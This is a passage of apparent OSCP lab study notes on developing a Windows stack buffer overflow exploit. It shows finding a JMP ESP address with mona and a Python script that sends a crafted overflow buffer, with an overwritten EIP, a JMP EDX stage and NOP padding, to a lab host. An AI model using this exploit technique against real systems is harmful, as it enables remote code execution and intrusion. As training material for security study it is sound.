 Look for the op instruction code for JMP ESP
```plaintext
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

We will look for a naturally occurring JMP ESP address within the Vuln3App.exe module. 
Run `!mona find -s "\xff\xe4" -m "VulnApp3.exe"`
We see that 1 pointer is found at address 0x1480111e, and we replace the EIP variable in the script with the address
![320bcd54d4fde4a5f695b90a1b290778.png](../../../../_resources/dd1517416e93452db3e7b61733ddbe50.png)

Here is the script with the eip variable updated to 0x1480111e
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 5_find_return_address.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```
